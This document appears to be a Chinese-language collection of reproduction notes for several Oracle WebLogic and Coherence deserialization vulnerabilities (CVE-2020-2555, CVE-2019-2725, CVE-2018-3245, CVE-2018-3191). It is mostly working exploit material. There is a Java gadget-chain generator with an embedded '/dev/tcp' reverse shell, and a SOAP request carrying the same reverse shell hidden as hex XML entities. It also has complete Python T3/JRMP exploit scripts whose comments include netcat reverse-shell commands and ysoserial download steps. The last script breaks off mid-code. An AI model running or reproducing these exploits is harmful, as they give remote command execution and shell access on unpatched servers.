

----

# CVE-2020-2555

影响版本：

​	Oracle Coherence 3.7.1.17

​	Oracle Coherence & Weblogic 12.1.3.0.0

​	Oracle Coherence & Weblogic 12.2.1.3.0

​	Oracle Coherence & Weblogic 12.2.1.4.0

复现：

安装weblogic12.2.1.3.0

复制Oracle_Home\coherence\lib下的jar包在idea中打开，右键->Add as Library

同lib目录下新建src目录标记为源文件，新建CVE_2020_2555.java

```java
import com.sun.corba.se.impl.io.OutputStreamHook;
import com.sun.org.apache.xalan.internal.utils.XMLSecurityManager;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import com.tangosol.util.filter.LimitFilter;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class CVE_2020_2555 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException {
        ReflectionExtractor[] extractors = new ReflectionExtractor[]{
                new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[0]}),
                new ReflectionExtractor("invoke", new Object[]{null, new Object[0]}),
                new ReflectionExtractor("exec", new Object[]{new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/10.251.0.105/8888 0>&1"}})
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);

        // m_oAnchorTop插入初始对象
        LimitFilter limitFilter = new LimitFilter();
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, Runtime.class);
        //m_comparator,插入执行extract
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);

        //BadAttributeValueExpException readObject() -> toString()
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, limitFilter);

        //序列化对象
        FileOutputStream in = new FileOutputStream("cve_2020_2555.ser");
        ObjectOutputStream out = new ObjectOutputStream(in);
        out.writeObject(badAttributeValueExpException);

    }

}
```

运行后生成cve_2020_2555.ser文件

执行

> python weblogic.py 10.251.0.105 7001 cve_2020_2555.ser

weblogic.py

```python
#!/usr/bin/python
import socket
import os
import sys
import struct

if len(sys.argv) < 3:
    print 'Usage: python %s <host> <port> </path/to/payload>' % os.path.basename(sys.argv[0])
    sys.exit()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(5)

server_address = (sys.argv[1], int(sys.argv[2]))
print '[+] Connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3],'rb').read()

payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x08\x01\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x08\x01\x00'
payload=payload+payloadObj
payload=payload+'\xfe\x08\x01\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x08\x01\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x08\x01\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'

# adjust header for appropriate message length
payload=struct.pack('>I',len(payload)) + payload[4:]

print '[+] Sending payload...'
sock.send(payload)
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
```

----


# CVE-2019-2725

影响版本：

　　weblogic 10.x

　　weblogic 12.1.3

payload：

```bash
POST /_async/AsyncResponseService HTTP/1.1
Host: 10.251.0.189:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0624E4A2965A43A8F550325BFDB4FF08
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-type:text/xml
Content-Length: 981

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>&#x62;&#x61;&#x73;&#x68;&#x20;&#x2D;&#x69;&#x20;&#x3E;&#x26;&#x20;&#x2F;&#x64;&#x65;&#x76;&#x2F;&#x74;&#x63;&#x70;&#x2F;&#x31;&#x30;&#x2E;&#x32;&#x35;&#x31;&#x2E;&#x30;&#x2E;&#x31;&#x30;&#x35;&#x2F;&#x38;&#x38;&#x38;&#x38;&#x20;&#x30;&#x3E;&#x26;&#x31;</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

返回202 Accepted执行成功


---

# CVE-2018-3245

影响版本：

Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.2.1.3

Oracle WebLogic Server 12.1.3.0

1. 开启JRMP服务：

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "ls"
```

2. 生成payload：

```bash
python exploit.py 192.168.180.226 7001 ysoserial-0.0.6-SNAPSHOT-all.jar 192.168.180.226 1099 JRMPClient
```

WebLogic(CVE-2018-3245).py

```python
# -*- coding: utf-8 -*-
# Oracle Weblogic Server (10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3) Deserialization Remote Command Execution Vulnerability (CVE-2018-2628)
#
# IMPORTANT: Is provided only for educational or information purposes.
#
# Credit: Thanks by Liao Xinxi of NSFOCUS Security Team
# Reference: http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
#
# How to exploit:
# 1. run below command on JRMPListener host
#    1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
#    2) java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
#       e.g. java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -nv 10.0.0.5 4040'
# 2. start a listener on attacker host
#    e.g. nc -nlvp 4040
# 3. run this script on attacker host
#    1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
#    2) python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
#       e.g.
#           a) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient (Using java.rmi.registry.Registry)
#           b) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient2 (Using java.rmi.activation.Activator)

from __future__ import print_function

import binascii
import os
import socket
import sys
import time


def generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    #generates ysoserial payload
    command = 'java -jar {} {} {}:{} > payload.out'.format(path_ysoserial, jrmp_client, jrmp_listener_ip, jrmp_listener_port)
    print("command: " + command)
    os.system(command)
    bin_file = open('payload.out','rb').read()
    return binascii.hexlify(bin_file)


def t3_handshake(sock, server_addr):
    sock.connect(server_addr)
    sock.send('74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'.decode('hex'))
    time.sleep(1)
    sock.recv(1024)
    print('handshake successful')


def build_t3_request_object(sock, port):
    data1 = '000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371'
    data2 = '007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd6000000070000{0}ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'.format('{:04x}'.format(dport))
    data3 = '1a7727000d3234322e323134'
    data4 = '2e312e32353461863d1d0000000078'
    for d in [data1,data2,data3,data4]:
        sock.send(d.decode('hex'))
    time.sleep(2)
    print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))


def send_payload_objdata(sock, data):
    payload='056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
    payload+=data
    payload+='fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
    payload = '%s%s'%('{:08x}'.format(len(payload)/2 + 4),payload)
    sock.send(payload.decode('hex'))
    time.sleep(2)
    sock.send(payload.decode('hex'))
    res = ''
    try:
        while True:
            res += sock.recv(4096)
            time.sleep(0.1)
    except Exception:
        pass
    return res


def exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(65)
    server_addr = (dip, dport)
    t3_handshake(sock, server_addr)
    build_t3_request_object(sock, dport)
    payload = generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
    print("payload: " + payload)
    rs=send_payload_objdata(sock, payload)
    print('response: ' + rs)
    print('exploit completed!')


if __name__=="__main__":
    #check for args, print usage if incorrect
    if len(sys.argv) != 7:
        print('\nUsage:\nexploit.py [victim ip] [victim port] [path to ysoserial] '
              '[JRMPListener ip] [JRMPListener port] [JRMPClient]\n')
        sys.exit()

    dip = sys.argv[1]
    dport = int(sys.argv[2])
    path_ysoserial = sys.argv[3]
    jrmp_listener_ip = sys.argv[4]
    jrmp_listener_port = sys.argv[5]
    jrmp_client = sys.argv[6]
    exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)

```


----

# CVE-2018-3191

下载工具：

[ysoserial-0.0.6](https://github.com/brianwrf/ysoserial/releases)

[weblogic-spring-jndi-10.3.6.0.jar](https://download.0-sec.org/download/weblogic-spring-jndi-10.3.6.0.jar) 

对应weblogic： 10.3.6.0,12.2.1.0,12.1.3.0,12.2.1.1

[weblogic-spring-jndi-12.2.1.3.jar](https://download.0-sec.org/download/weblogic-spring-jndi-12.2.1.3.jar) 

对应weblogic： 12.2.1.3

exploit.py

```python
# -*- coding: utf-8 -*-
# Oracle Weblogic Server (10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3) Deserialization Remote Command Execution Vulnerability (CVE-2018-2628)
#
# IMPORTANT: Is provided only for educational or information purposes.
#
# Credit: Thanks by Liao Xinxi of NSFOCUS Security Team
# Reference: http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
#
# How to exploit:
# 1. run below command on JRMPListener host
#    1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
#    2) java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
#       e.g. java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -nv 10.0.0.5 4040'
# 2. start a listener on attacker host
#    e.g. nc -nlvp 4040
# 3. run this script on attacker host
#    1) wget https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar
#    2) python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
#       e.g.
#           a) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient (Using java.rmi.registry.Registry)
#           b) python exploit.py 10.0.0.11 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 10.0.0.5 1099 JRMPClient2 (Using java.rmi.activation.Activator)
 
from __future__ import print_function
 
import binascii
import os
import socket
import sys
import time
 
 
def generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port):
    #generates ysoserial payload
    command = 'java -jar {} rmi://{}:{}/exp > payload.out'.format(path_ysoserial,jrmp_listener_ip, jrmp_listener_port)
    print("command: " + command)
    os.system(command)
    bin_file = open('payload.out','rb').read()
    return binascii.hexlify(bin_file)
 
 
def t3_handshake(sock, server_addr):
    sock.connect(server_addr)
    sock.send('74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'.decode('hex'))
    time.sleep(1)
    sock.recv(1024)
    print('handshake successful')
 
 
def build_t3_request_object(sock, port):
    data1 = '000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371'
    data2 = '007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd6000000070000{0}ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'.format('{:04x}'.format(dport))
    data3 = '1a7727000d3234322e323134'
    data4 = '2e312e32353461863d1d0000000078'
    for d in [data1,data2,data3,data4]:
        sock.send(d.decode('hex'))
    time.sleep(2)
    print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))
 
 
def send_payload_objdata(sock, data):
    payload='056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
    payload+=data
